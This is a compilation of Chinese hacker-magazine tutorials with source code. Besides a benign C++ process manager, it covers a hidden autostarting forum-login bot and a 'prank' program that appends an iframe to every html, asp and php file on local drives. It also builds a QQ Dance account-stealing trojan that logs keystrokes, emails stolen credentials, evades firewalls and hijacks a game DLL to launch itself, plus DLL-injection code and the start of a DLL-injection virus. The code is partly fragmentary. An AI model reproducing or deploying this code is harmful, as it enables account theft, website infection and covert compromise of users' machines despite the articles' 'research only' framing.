加一个成员函数ShowList()，用来实现软件的初始化工作，废话不多说了，直接给出代码，BOOL C进程查看Dlg::ShowList():


图1

大家来看一下最终制作好的软件截图，如图1所示。跟上次的程序相比，我添加了文件目录打开、结束进程以及文件路径显示的功能。工程的具体内容大家请参考第三期杂志中的那篇文章……

```
cpp
m_TaskList.DeleteAllItems();
HANDLE h_Process=NULL;
h_Process=CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS,0);
if(INVALID_HANDLE_VALUE==h_Process)
    return FALSE;

int i=0;
PROCESSENTRY32 Pe;
Pe.dwSize=sizeof(PROCESSENTRY32);
CString FileInfo;
char FilePath[MAX_PATH];
```

```
cpp
BOOL bRet=FALSE;
bRet=Process32First(h_Process,&Pe);
while(bRet)
{
    FileInfo=(CString)Pe.szExeFile;
    m_TaskList.InsertItem(i,FileInfo);
    dwPid=Pe.th32ProcessID;
    FileInfo.Format(_T("%d"),dwPid);
    m_TaskList.SetItemText(i,1,FileInfo);
    FileInfo.Empty();
    HANDLE hProcess;
    hProcess=OpenProcess(PROCESS_ALL_ACCESS,FALSE,Pe.th32ProcessID);
    if(GetModuleFileNameEx(hProcess,NULL,(LPTSTR)FilePath,MAX_PATH)!=0)
    {
        m_TaskList.SetItemText(i,2,(LPCTSTR)FilePath);
    }
    CloseHandle(hProcess);
    bRet=Process32Next(h_Process,&Pe);
    i++;
}
CloseHandle(h_Process);
CString str;
str.Format(_T("进程数：%d"),m_TaskList.GetItemCount());
m_Status.SetText(str,0,0);
return TRUE;
```

Ex()这个函数是获取文件路径并保存在FilePath变量中，然后将其显示在列表中。这是一个API，而不是MFC类库里面封装的函数。为什么要自己封装这个函数呢？这主要是为了菜单中刷新功能的实现。

我们这次的重点是怎样添加菜单和显示菜单，以及菜单中每一项功能的实现。在VC中切换到资源选项，单击右键选择新建菜单，然后按照图2那样来添加菜单选项。菜单中的第一项没有作用，因为我们添加的是弹出式菜单，所以第一项可以随便填写，这里填写的是Menu。

菜单添加好之后就是实现当右键点击listctrl控件时弹出菜单的功能了。给listctrl添加右键单击事件响应函数，函数主体代码如下：

```
cpp
if (pNMItemActivate->iItem<0)
{
    return;
}
CMenu Menu,*pMenu=NULL;
CPoint Point;
GetCursorPos(&Point); // 获取当前鼠标位置
Menu.LoadMenu(IDR_MENU1); // 载入菜单资源
pMenu=Menu.GetSubMenu(0); // 获得子菜单
pMenu->TrackPopupMenu(TPM_RIGHTBUTTON,Point.x,Point.y,this); // 弹出菜单
*pResult=0;
```

我大致的解释一下新加代码的作用，GetModuleFileName-


图2

我来解释一下为什么要获得子菜单的指针，其原因就是我们添加的是弹出式菜单。TrackPopupMenu()函数就是弹出菜单的函数。接下来就是菜单中每项功能的实现，分别添加单击事件消息响应函数，函数名可自行更改。

```
cpp
CString strPath = m_TaskList.GetItemText(m_TaskList.GetSelectionMark(), 2);
strPath = strPath.Left(strPath.ReverseFind('\\'));
HINSTANCE hInstance = ShellExecute(NULL, _T("open"), strPath, NULL, NULL, SW_SHOWNORMAL); // 这里是打开指定目录
if (SE_ERR_ACCESSDENIED == (int)hInstance)
{
    AfxMessageBox(_T("拒绝访问!"));
}
```

我们先获取 listctrl 中显示的文件路径，然后去掉文件名，得到文件路径，再使用 `ShellExecute()` 函数打开目录。这个方法我仿照了瑞星的文件定位功能，但是不知道怎样打开目录后自动选中该文件，还请高手们能够指点一下。结束进程的代码如下：

```
cpp
if (IDOK == ::MessageBox(NULL, _T("真的要结束进程吗？"), _T("提示"), MB_OKCANCEL | MB_ICONWARNING))
{
    HANDLE hProcess;
    CString Pid;
    Pid = m_TaskList.GetItemText(m_TaskList.GetSelectionMark(), 1);
    hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, _wtoi(Pid.GetBuffer()));
    DWORD ExitCode;
    GetExitCodeProcess(hProcess, &ExitCode);
    TerminateProcess(hProcess, ExitCode); // 终止指定进程
    Pid.ReleaseBuffer();
    CloseHandle(hProcess);
}
Sleep(300);
ShowList();
m_TaskList.DeleteItem(0);
m_TaskList.DeleteItem(0);
return;
```

这里就用到了上次文章中给大家提示的函数 `TerminateProcess()`，但是如果我们直接使用这个函数的话，可能会无法结束掉指定进程，所以在结束进程前必须要让我们的程序有结束其它进程的权限，这里就用到了一个自定义函数 `BOOL EnablePrivilege()`。

```
cpp
BOOL EnablePrivilege()
{
    HANDLE hToken = NULL;
    TOKEN_PRIVILEGES tkp = {0};
    if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken)) // 打开指定进程的权限令牌
    {
        return FALSE;
    }
    if (!LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &tkp.Privileges[0].Luid)) // 通知操作系统提升权限到 DEBUG 模式
    {
        CloseHandle(hToken);
        return FALSE;
    }
    tkp.PrivilegeCount = 1;
    tkp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
    if (!AdjustTokenPrivileges(hToken, FALSE, &tkp, sizeof(TOKEN_PRIVILEGES), NULL, NULL)) // 提升权限
    {
        CloseHandle(hToken);
        return FALSE;
    }
    return TRUE;
}
```

这个函数基本上是比较固定的，使用的时候只要更改一下权限模式就行了。我们在初始化窗口的过程中调用这个函数，就实现了权限的提升。最后就是刷新的处理函数，简单的调用一下 `ShowList()` 就可以了。

好了，我们真正意义上的进程管理工具就编写成功了，以后当碰上屏蔽任务管理器的病毒时，这个工具就可以发威了。（文章中涉及到的进程管理工具以及相关代码，已经收录在了光盘中）

## VB来制作论混提机工具

相信那些经常泡论坛的小菜应该都知道，在一些论坛中要想升级，就需要一定的在线时间，这对于那些经常混迹于网吧的小菜来说可是个麻烦事，如图1，如何解决这个问题呢？我们可以自己编写一个小程序，在每次上机的时候轻轻一点，就自动帮我们打开论坛、填写用户名、然后程序再自动的隐藏起来。


图1

至于程序的界面嘛，只需要放一个Inet控件和一个Webbrowser控件，我将其命名为了Web1。程序具体的思路就是利用Web1打开登录页面，然后自动提交表单，下面我就以广西红盟的论坛为例来进行讲解吧，论坛的登录界面是“http://bbs.gxhacker.cn/login.php”，我们先来看login.php的部分源代码：

```
html
<dt onclick="document.login.pwuser.focus();">
  <input type="radio" name="lgt" value="0" checked /> 用户名
  <input type="radio" name="lgt" value="2" /> Email
</dt>
<dd>
  <input class="input" type="text" maxlength="60" name="pwuser" size="40" tabindex="2" />
  <a href="register.php">马上注册</a>
</dd>
<dl class="cc">
  <dt>密码</dt>
  <dd><input class="input" type="password" maxlength="20" name="pwpwd" size="40" tabindex="3" />
  <a href="sendpwd.php" target="_blank">找回密码</a></dd>
</dl>
......省略部分代码......
<dl class="cc">
  <dt>&nbsp;</dt>
  <dd><input class="btn" type="submit" name="submit" value="登录" style="width:80px" tabindex="10" /></dd>
</dl>
```

根据上面的程序代码，我们可以知道文本框的信息，接下来就可以动手编写代码了，程序的声明部分如下：

```
vb
Private Declare Function RegCreateKey Lib "advapi32.dll" Alias "RegCreateKeyA" (ByVal hKey As Long, ByVal lpSubKey As String, phkResult As Long) As Long
Private Declare Function RegSetValueEx Lib "advapi32.dll" Alias "RegSetValueExA" (ByVal hKey As Long, ByVal lpValueName As String, ByVal Reserved As Long, ByVal dwType As Long, lpData As Any, ByVal cbData As Long) As Long
' Note that if you declare the lpData parameter as String, you must pass it By Value.
Private Declare Function RegCloseKey Lib "advapi32.dll" (ByVal hKey As Long) As Long
Private Declare Sub Sleep Lib "kernel32" (ByVal dwMilliseconds As Long)
Private Const REG_SZ = 1
Const HKEY_LOCAL_MACHINE = &H80000002
```

```
vb
Private Sub SaveString(hKey As Long, strPath As String, strValue As String, strData As String)
    Dim keyHand As Long
    Dim R As Long
    R = RegCreateKey(hKey, strPath, keyHand)
    R = RegSetValueEx(keyHand, strValue, 0, REG_SZ, ByVal strData, LenB(StrConv(strData, vbFromUnicode)))
    R = RegCloseKey(keyHand)
End Sub

Private Sub Form_Load()
    App.TaskVisible = False '不显示在任务管理器中
    Call CheckLogin '触发CheckLogin
End Sub
```

如果我们不是在网吧上网，而是使用本机上网的话，那么电脑中保存的cookies，就会显示已经登录过的信息，所以我们要对它进行一个判断，判断我们是否已经登录过，相关代码如下：

```
vb
Private Sub CheckLogin() '检查是否已经登录
    Web1.Navigate "http://bbs.gxhacker.cn/login.php" '载入登录页面
    Sleep 1000 '延时
    Dim i, inf, Wcode
    inf = Inet1.OpenURL("http://bbs.gxhacker.cn/login.php")
    '借助Inet下载源码
    Wcode = Web1.Document.body.innertext '获取页面中的源码
    i = InStrRev(Wcode, "您已经为会员身份") '搜索字符
    If i = 0 Then
        Call Up '找不到就填写表单
        Exit Sub
    End If
    Web1.Navigate "http://bbs.gxhacker.cn" '否则返回首页
End Sub

Private Sub Up() '自动填写并提交表单
    Dim i, vDoc, vTag
    Set vDoc = Web1.Document
    For i = 0 To vDoc.All.length - 1 '检测所有标签
        If UCase(vDoc.All(i).tagName) = "INPUT" Then '找到input标签
            Set vTag = vDoc.All(i)
            If vTag.Type = "text" Then '检测类型
                Select Case vTag.Name
                Case "pwuser" '填写用户名的文本框的值
                    vTag.Value = "常笑魔" '填写用户名
                End Select
            ElseIf vTag.Type = "password" Then '检测密码框类型
                Select Case vTag.Name
                Case "pwpwd" '密码框的值
                    vTag.Value = "hackerxfiles" '写入密码
                End Select
            ElseIf vTag.Type = "submit" Then '提交按钮的值
                vTag.Click '提交
            End If
        End If
    Next i
End Sub
```

运行的话，可以加入启动项，代码如下：

```
vb
Private Sub CheckReg() '读写注册表
    '判断是否在注册表
    Dim w As Object
    Dim s
    On Error GoTo err
    Set w = CreateObject("wscript.shell")
    s = w.RegRead("HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\Guaji")
    Exit Sub
err:
    err.Clear
    '如果没有则创建值
    Dim fname As String
    If Right(App.Path, 1) = "\\" Then
        fname = App.Path
    Else
        fname = App.Path & "\\"
    End If
    SaveString HKEY_LOCAL_MACHINE, "Software\Microsoft\Windows\CurrentVersion\Run", "Guaji", fname & App.EXEName & ".exe" '开机自启动
    Exit Sub
End Sub
```

然后在Form_Load中加入Call CheckReg就可以实现开机自启动了……这个程序只是给大家研究使用的，真正应用的时候还需要在Form_Load中加入Me.Hide用于实现启动隐藏……

到这里整个程序就基本完成了，代码不算太长……如果我们是在自己的电脑上运行，倘若想每次开机后都自动运行的话……


## 使用VC制作一个恶搞程序

Ccy浩然

在上期杂志的“VC9完善进程管理器——菜单栏的添加以及函数编写”一文中，我教大家实现了菜单及其响应函数的编写，那么今天我们就来制作一个恶搞程序。首先打开VC++6.0，这次就不建MFC工程了，因为毕竟是恶搞程序，是不能让别人知道的，所以我们新建一个console程序（控制台程序），名字可以随便取，然后就是按照提示选择相应的选项，如图1。接下来就可以编写代码了，在左侧的视图中打开fileview选项，然后双击“Test files”-“Source Files”下的Test.cpp，就可以打开代码编辑区了，如图2。


图1

好了，下面就是代码部分了，又于们可要睁大眼睛看哦。


图2

我们先在Test.cpp中添加如下的头文件：

```
#include<windows.h>
#include<stdio.h>
#include<string.h>
```

因为我们在程序中要使用到windows API和字符串处理函数，这个就不用我再具体的介绍了吧。对于控制台窗口，有个很令人头疼的问题需要解决，就是它的黑框框，这里教给大家一个简单的方法，我们在头文件的声明后面加上 #pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"") 这句代码。

我简单的来解释一下：“#pragma comment()”的原型是“#pragma comment(comment-type,["commentstring"])”，第一个参数comment-type是一个预定义的标识符，第二个参数commentstring是为comment-type提供附加信息的字符串。这句代码的意思就是告诉连接器，当前运行的系统是Windows，并且对控制台程序设置的入口函数是mainCRTStartup，mainCRTStartup再调用我们自己编写的main函数，这样就达到隐藏黑框。

接下来我们开始编写WriteContents函数，这是一个自定义函数，废话不多说了，大家来看程序代码，相关的注释我已经在代码中给出来了。

```
void WriteContents(char *FilePath)
{
    char url[]="\r\n<iframe src=http://www.hackerx-files.net width=600 height=600></iframe>";
    FILE *fp;
    fp=fopen(FilePath,"rb+");   //打开文件，获得文件指针
    if(fp==NULL)                 //判断文件是否正常打开
    {
        return;
    }
    else
    {
        fseek(fp,0,SEEK_END);    //移动文件指针到文件末尾
        fwrite(url,sizeof(char),strlen(url),fp);  //写入内容
        fclose(fp);
    }
    return;
}
```

我们再来编写main函数，为了方便大家的理解，在代码中我也给出了相关的注释。

```
int main(int argc, char* argv[])
{
    for(char i='B';i<'Z';i++)   //扫描磁盘，一般用A盘的比较少，我就没写。
    {
        char dir[20]={i,":"};
        char path[100];
        UINT type=GetDriveType(dir);   //获得驱动器类型
        if((type==DRIVE_FIXED)||(type==DRIVE_REMOVABLE))  //判断是否为硬盘和可移动盘
        {
            WIN32_FIND_DATA fd;
            wsprintf(path,"%s\\*.*",dir);
            hFile=FindFirstFile(path,&fd); // 查找文件
            if(hFile!=NULL){
                do{
                    if(strstr(fd.cFileName,"html")!=NULL || strstr(fd.cFileName,"asp")!=NULL || strstr(fd.cFileName,"aspx")!=NULL || strstr(fd.cFileName,"php")!=NULL){
                        char FilePath[100];
                        sprintf(FilePath,"%s\\%s",dir,fd.cFileName);
                        WriteContents(FilePath);
                    }
                }while(...);
                FindClose(hFile);
            }
        }
    }
    return 0;
}
```

当然，如果我们把地址换成自己的网页地址，那威力就更大了。到此，程序就编写完成了，按 F7 编译成可执行文件，程序在 XP 系统下测试成功，如图3。


图3

> > （文章中涉及到的编译好的程序以及相关源代码，已经收录在了光盘中）

## 盗号手刺，绝杀QQ炫舞！——使用VB编写一个炫舞登录器


在文章开始前，我先要说两个声明：第一，本文纯属技术交流，大家务必以研究技术为目的，互相提高为宗旨，决不能做违法的事情……大家还是改成自己的邮箱进行测试吧。

好了，我们言归正传，上次我在QQ群里和一些朋友讨论了盗取“地下城与勇士”的帐号和密码的方法后，大家纷纷表示赞同……希望能研究一下关于QQ炫舞的帐号和密码问题。

- 1、得到游戏的各种参数（后文续）
- 2、在适当的情况下记录地区账号和密码
- 3、发送邮件
- 4、制作生成器以及压缩服务端

以上的这些方法我在前几期的杂志中已经专门介绍过，这次就不作为重点了，但在本期的文章中，我会重点介绍一些隐藏的技巧，这也是我经过一个多星期的研究，总结出的一些自己觉得比较理想的方法。

这个程序分为服务端和生成端两部分，本文我们将重点介绍服务端，因为关于生成端的一些相关技术我已经在以前的文章中介绍过了。打开VB6.0，分别拖上三个text控件和三个timer控件，因为这个界面是看不见的，也就是把窗体的visible属性设为了false，所以基本不用做美工处理，界面如图1所示，接下来就可以编写代码了。代码主要分为三部分，第一是寻找到炫舞的安装路径，然后得到炫舞的一些信息，比如地区和账号；第二是隐藏保护程序；第三是键盘记录和一些反杀毒软件的技术。

我们先安装上炫舞，路径可以任意选择，然后再检查一下注册表，看下注册表哪里被改动了，可以使用注册表快照这个软件，比较安装前后注册表的改动情况。我先手工检查了以前所找的腾讯的安装项，发现里面并没有炫舞的安装路径，只有DNF和其它游戏的安装路径。


图1

使用注册表快照软件通过安装前后注册表的比较，找到了炫舞的安装路径，为“HKEY_LOCAL_MACHINE\SOFTWARE\MICROSOFT\WINDOWS\CURRENTVERSION\UNINSTALL\QQ炫舞_is1\InstallLocation”。我们就以这些作为突破口，从这里找到安装路径后，打开安装目录，发现在bin文件夹里有个名叫luscrid.txt的文本文件，在这个文件里记录着每次登录的账号，所以账号问题应该是很容易解决了。

但是炫舞的地区却不太好办，经过几次尝试，我终于找到了每次登录时的记录里有对地区的记录，但是这个登录文件在每次登录时都会有新的文件名，并且每次的名字都不一样，都是使用当时的登录时间作为文件名字的，这就给我们找文件带来了很大的影响。后来我想到了一个解决办法，就是在每次运行的时候，先把以前的log文件全部删除，这样登录的记录就大大减少了，我们也就比较好找了，删除log文件的代码如下：

```
lujingG1 = ReadRegKey("HKLM\SOFTWARE\MICROSOFT\WINDOWS\CURRENTVERSION\UNINSTALL\QQ炫舞_is1\InstallLocation") & "bin\logs\*.log"  '清空
Kill lujingG1
```

清空了记录地区的log文件后，我们就可以根据条件进行判断了，利用到了一个FindWindow的API，把这个API写在一个timer控件中，只要发现了炫舞的登录窗口，就开始记录下一些有用的信息，比如地区、账号和密码等。

我记得在写DNF的时候，很容易就解决了这个问题，但是在炫舞中却花费了好长的时间，因为地区的选取要到最后才能得到，这就使得我们发送密码的邮件的时间很不好控制，如果发送早了，就得不到地区，发送晚了，就得不到密码，为了可以兼顾这两个方面，就需要分两个timer控件才能得到。

我以前使用一个控件的时候，有时记录的信息会不全，因此需要用到两个timer控件来对时间加以控制，其中的一个控件只起到延时的作用。熟悉VB的朋友都知道，对于VB的延时，最好不使用sleep函数，那样会把程序挂起几秒钟，就像死机一样，精明的人一眼就会看出中马了，因此我们最好是使用一个timer控件来延时。后来有位同行告诉我说，使用一个API也能够做到很流畅的延时，我试了一下，的确不错，但就是代码太长了，需要一个类，我计划在下次写个英雄包的盗号木马时再使用这个延时的方法。现在，我们就利用timer控件来延时，实现的代码是这样的：

```
Private Sub Timer1_Timer()
    A
    Timer2.Interval = 2000
    Timer2.Enabled = True
End Sub

Private Sub Timer2_Timer()
    Timer2.Enabled = False
    B
End Sub
```

这是一段比较经典的延时代码，可以用在任何想延时的地方，具体的代码大家看程序就可以了，我都给出了详细的注释。延时的问题解决了，我们就可以顺利得到地区和账号了。一旦记录好了地区、账号和密码，程序就会自动判断，然后就会发信，我使用的是open语句，非常简单的，代码如下：

```
Dim a
Open lujinG For Input As #1
Line Input #1, a
Close #1
tDNFUserInfo.Text = a '得到账号
zhanghao = tDNFUserInfo.Text
lujingG2 = ReadRegKey("HKLM\SOFTWARE\MICROSOFT\WINDOWS\CURRENTVERSION\UNINSTALL\QQ炫舞_is1\InstallLocation") & "bin\logs\"
p = lujingG2
s = Dir(p & "client_hall_SystemLog*.log")
Open p & s For Input As #1
t = StrConv(InputB(LOF(1), 1), vbUnicode)
text1.Text = Mid(t, InStr(1, t, "区") - 3, 3) '得到区
```

## 最基本的抓取地区、账号和密码的功能就完成了，但我们这次的重点是探讨如何保护我们的木马。以前总是通过隐藏进程或者使用守护进程的方法，后来发现遇到真正的高手这些都不太起作用……下面我来具体说明。

动木马的server的，因为在刚启动炫舞的时候，QQ炫舞exe就先启动TenFact.dll了，而一旦TenFact.dll启动，我们的木马server也就会跟着启动了……具体的实现代码如下：

```
If Fso.FileExists(ExeLujing1) = False Then
    '母体生成子体
    Fso.CopyFile GetMyFileName, ExeLujing1, False
    Set wmi = GetObject("WinMgmts:")
    For Each obj In wmi
        If obj.Name = "Server.exe" Then obj.Terminate
    Next
    Shell ExeLujing1, 0
Else
    Shell ExeLujing1, 0
    Shell "cmd /c netstat -an&&del /f /q /a:-"
    Set wmi = GetObject("WinMgmts:")
    For Each obj In wmi
        If obj.Name = "Server.exe" Then obj.Terminate
    Next
End If
```


图2

首先，我在炫舞的安装目录中找到了一个dll文件，名字为TenFact.dll，把它复制出来，然后使用OD加载，如图2，记录下入口地址10008AA9……最后把入口点改为91DE就可以了，如图3。


图3

这样，一个修改好的TenFact.dll就大功告成了……我是想利用这个dll文件来启动木马的server。

接下来我简单的介绍一下发信功能，这次的发信和上次DNF发信不同，因为得到地区账号和密码的时间不同，因此我们这次发完信后马上结束掉进程……我就发一小部分代码来介绍一下：

```
If mimA <> "" And text1.Text <> "" And tDNFUserInfo.Text <> "" Then
    Call SendEMail(.EmailFrom, .EmailTo, "炫舞", "地区:" & text1.Text & "区" & "___" & "账号:" & tDNFUserInfo.Text & "___" & "密码:" & Replace(tPressKey.Text, zhang-ha0, ""), .EmailSmtp, .EmailUserName, .EmailPassWord)
    mimA = ""
    Set wmi = GetObject("WinMgmts:")
    For Each obj In wmi
        If obj.Name = "killfhq.exe" Then obj.Terminate
```

Next

最后我再介绍一下如何过防火墙的问题，我在前几期的文章中所写的过瑞星的主动防御和防火墙的代码，都做到资源里了，因为有些朋友看不明白，这次就简单的介绍一下，并做一些简单的修改。上次的代码在本文中如果多次启动炫舞，就会在进程中看到有很多进程，相信聪明的人一眼就会看出中招了，所以我就添加了一条限制，只让程序运行一次，但是经过测试，发现

```
If VB.App.PrevInstance Then End
```

这句代码无效，因为它在不同的回调里运行了，所以不能使用这句代码，使用下面的代码就可以了：

```
Dim I As Integer
Static num As Integer
Progress = Split(Enum1, vbCrLf)
For I = 1 To UBound(Progress) - 1
If Progress(I) = "killfhq.exe" Then
  num = num + 1
  If num > 1 Then
    End
  End If
End If
Next
```

这样，只要出来防火墙拦截，就会自动放行，然后再把它的进程杀掉，就万无一失了。至于发信代码、生成器的代码以及压缩的代码，几乎和以前文章中的一样，就不再重复了，大家可以翻阅一下我以前的文章。

木马、病毒，我虽然很厌恶它们，但我却也喜欢研究它们。因为只有通过研究，才能更好的去了解它们，只有更好的了解了它们，才能够轻松的驾驭它们，本文的目的是想让更多的朋友了解它们的原理和构造，也就知道如何去防御它们了。另外，当我编写完程序并找了个哥们测试的时候，他问了我一句话：“你怎么知道打开炫舞的时候能调用TenFact.dll这个dll文件？”，我怕其他的朋友也有此疑问，这里就再简单介绍一下，我使用了一个软件，名字叫Wsyscheck，运行它，再运行炫舞，在QQ炫舞.exe前面打勾，再选中QQ炫舞，如图4所示，看到下面的“c:\program files\腾讯游戏\qq炫舞\bin\teniodl\TenLogPro.dll”这个路径了吧，就是它！


## 由DLL进程注入谈Windows权限设置误区

在去年的黑客X档案杂志上，我发表了一篇关于Windows授权设置的文章，看过这篇文章的某网友在QQ上问了一个很有意思的问题：如果不给explorer.exe加入写权限，是不是就可以防止外壳程序被感染呢？因为在那篇文章中，我主要说明的是给外壳程序设置权限以防止非法用户登录，而并没有真正的把权限一词的含义说明白，因此本文我就结合DLL进程注入来讨论一下这个看上去并不怎么起眼的问题。

Windows的权限设置范围很广，但是不管什么文件，只有两种状态——存储于硬盘上的静态文件以及载入内存的动态文件（比如进程就是一个动态文件）。对于静态文件来说，权限设置修改的是ACL（访问控制列表），我们通过cacls命令修改的就是ACL，而对于动态文件来说，则是由token（访问令牌）来实现的，这听上去似乎很复杂，我们结合DLL进程注入来作个实验，大家就会一目了然了。

首先，我们在%systemroot%目录中找到explorer.exe，点击右键选择“属性”，单击“安全”选项，将其他用户组都删除，只保留administrator和system，并授予“读取”和“运行”权限，如图1所示。

然后来编写一个DLL文件，用于注入explorer.exe，具体的代码如下：


```
cpp
//dll.cpp
..........

UINT __stdcall threadfunc(LPVOID)
{
    MessageBox(NULL,"inject sucessfully!","fuck",MB_OK);
    return 0;
}

BOOL APIENTRY DllMain(HANDLE hModule, DWORD ul_reason_for_call, LPVOID)
{
    switch(ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        {
            UINT id;
            HANDLE hthread=(HANDLE)_beginthreadex(NULL,0,threadfunc,NULL,0,&id);
            break;
        }
    default:
        break;
    }
    return TRUE;
}

```

当explorer.exe加载了该DLL文件后，就会自动创建一个线程，创建的线程只有一个功能——输出“inject successfully”字符串以提示我们注入成功。接下来我们开始编写DLL注入程序，具体的代码如下：

```
cpp
//DLL注入程序
..........

//根据文件名得到进程的PID
DWORD GetPid(string exename)
{
    //建立进程快照
    PROCESSENTRY32 pe32={0};
    pe32.dwSize=sizeof(pe32);
    HANDLE hsnap=CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS,0);
    if(NULL==hsnap)
    {
        cout<<"can't snap!"<<endl;
        return 0;
    }

    //枚举进程得到要inject的进程PID
    BOOL b_con = Process32First(hsnap,&pe32);
    while(b_con)
    {
        if(strcmp(strupr(pe32.szExeFile),strupr((const_cast<char *>(exename.c_str())))==0)
        {
            CloseHandle(hsnap);
            return pe32.th32ProcessID;
        }
        b_con=Process32Next(hsnap,&pe32);
    }
    CloseHandle(hsnap);
    return 0;
}

//调整本地进程权限以得到系统进程句柄
BOOL EnableDebugPriv(string lookupname)
{
    HANDLE htoken=NULL;
    TOKEN_PRIVILEGES tp={0};
    if(!OpenProcessToken(GetCurrentProcess(),TOKEN_ADJUST_PRIVILEGES|TOKEN_QUERY,&htoken))
    {
        cout<<"can't open process token!"<<endl;
        return FALSE;
    }
    if(!LookupPrivilegeValue(NULL,lookupname.c_str(),&tp.Privileges[0].Luid))
    {
        cout<<"can't get luid!"<<endl;
        return FALSE;
    }
    tp.PrivilegeCount=1;
    tp.Privileges[0].Attributes=SE_PRIVILEGE_ENABLED;
    if(!AdjustTokenPrivileges(htoken,TRUE,&tp,sizeof(tp),NULL,NULL))
    {
        cout<<"can't adjust token privilege!"<<endl;
        return FALSE;
    }
    return TRUE;
}

//Inject Dll
BOOL InjectDll(string dllname,DWORD dw_remotepid)
{
    if(!EnableDebugPriv(SE_DEBUG_NAME))
    {
        // ...
    }
}

```

```
cpp
{
    cout<<"1"<<endl;return FALSE;
}
//打开远程进程得到句柄
HANDLE hpro=NULL;
if(NULL==(hpro=OpenProcess(PROCESS_ALL_ACCESS,FALSE,dw_remotepid)))
{
    cout<<"2"<<endl;return FALSE;
}

//在远程进程中分配相应的内存
char *pdllname=NULL;
if(NULL==(pdllname=(char *)VirtualAllocEx(hpro,NULL,strlen(dllname.c_str())+1,MEM_COMMIT,PAGE_READWRITE)))
{
    cout<<"3"<<endl; return FALSE;
}

//将要加载的DLL文件名写入远程进程的地址空间
if(!WriteProcessMemory(hpro,(LPVOID)pdllname,(LPVOID)dllname.c_str(),strlen(dllname.c_str())+1,NULL))
{
    cout<<"4"<<endl; return FALSE;
}

//得到LoadLibrary()的地址，并作为线程函数
PTHREAD_START_ROUTINE pstartaddr=(PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle("Kernel32.dll"),"LoadLibraryA");
if(NULL==pstartaddr)
{
    cout<<"5"<<endl; return FALSE;
}

//创建远程线程，在远程线程中加载DLL文件
HANDLE hthread=NULL;
if(NULL==(hthread=CreateRemoteThread(hpro,NULL,NULL,pstartaddr,pdllname,0,NULL)))
{
    cout<<"6"<<endl; return FALSE;
}
return TRUE;
}

int main()
{
    string dll(256,'\0');
    GetCurrentDirectory(dll.size(),const_cast<char *>(dll.c_str()));
    strcat(const_cast<char *>(dll.c_str()),"\\dll.dll");
    InjectDll(dll,GetPid("explorer.exe"));
    return 0;
}

```

上面的代码，首先枚举系统进程，找到 explorer.exe 的 PID，然后根据 PID 调用 OpenProcess() 打开 explorer.exe 得到句柄，通过 VirtualAllocEx() 在 explorer.exe 的进程空间中分配虚拟内存，通过调用 WriteProcessMemory() 将注入的 DLL 名字写入 explorer.exe 的进程地址空间，最后将 LoadLibrary() 作为线程函数地址，通过 CreateRemoteThread() 远程在 explorer.exe 中创建一个线程，也就是执行 DLL 文件时加载，从而执行 DLLMain() 中的代码。


图2

我们编译上面的两个程序，将 dll 文件命名为 dll.dll 并保存到注入程序的同一目录下，运行测试程序，如图2所示。我们使用 LordPe 查看 explorer.exe 加载的 dll 文件，如图3所示，的确是注入成功了。

根据以上的测试结果，我们可以得出一个结论，就是静态文件权限并不影响动态文件权限。让我们来看一下为什么能够注入 explorer.exe，明明设置的是“读取”和“运行”权限，为什么能够注入进程呢？


图3

使用任务管理器结束 explorer.exe，然后单击任务管理器的“文件”——“新建任务”，在弹出的对话框中输入 explorer.exe，运行一个没有注入 DLL 文件的 explorer.exe，然后再运行 process explorer.exe，定位到 explorer.exe，右键点击“properties”查看属性，在弹出的对话框中选择“Security”选项，单击“Permission”按钮，我们就会惊奇地发现它的权限为“Full control”（完全控制），如图4，这也能反过来证明上面的结论——静态文件权限不影响动态文件权限。

来继续我们的实验，使用 Process explorer.exe，将 explorer.exe 的写入权限取消，只保留读取权限，再次运行注入程序，将不会看到 Inject successfully 的对话框，在 LordPe 中也找不到注入的 DLL 文件。我们可以得出结论：动态文件权限取决于动态运行时的权限，具体的是由 Token 访问令牌来决定的。


那篇文章中已经介绍了对服务进行权限设置，实际上对于服务来说，最好的方法也只能是设置运行时的权限，因为大部分服务程序需要常驻内存且在开机时就已经启动了。

通过本文的实验，我们可以知道，对于 Windows 外壳程序的权限设置我们要做好两方面的工作，一是要作好静态权限，防止远程非法登录，这主要体现在权限集中上，也就是让外壳程序只有一个 administrator 用户有读取运行的权限，其他任何组中的用户都无法运行外壳程序；另一方面，大部分的 DLL 恶意注入程序都是因为运行时权限设置不严格而造成的，因此有必要借助第三方工具来将运行时的权限设置为只读。

（文章中涉及到的源代码，已经收录在了光盘中）

图4


## DIY自己的DLL注入病毒

吴鸣鹏

提到计算机病毒，相信大家都不会感到陌生吧，有的小菜一听到病毒，那可是又怕又恨啊，今天就让我带领大家来编写一个简单的病毒程序，在编写过程中逐步地认识病毒以及了解病毒的编写流程。

首先向大家介绍一下我们本次所要编写的病毒的大致情况：这个小病毒针对的是一款名叫“飞鸽”的软件，这是一款在局域网中使用的软件，相信很多泡局域网的小菜对它都不陌生吧。我们主要实现的功能就是在目标电脑的根目录下释放一个 DLL 文件，然后搜索进程，如果发现“飞鸽”的进程，就把我们的 DLL 注入到它的地址空间，然后弹出一个对话框。程序的编译环境使用的是 VC6.0，MFC 开发，所涉及到的主要知识是 DLL 文件注入。下面我给小菜们解释一下什么是 DLL 文件，什么又是 DLL 文件的注入。

DLL（Dynamic Link Libraries）即动态链接库的意思，大部分动态链接库镜像文件的扩展名都为 dll，但扩展名为其它的文件也有可能是动态链接库，比如系统中的某些 exe 文件，各种控件（*.ocx）等都是动态链接库。

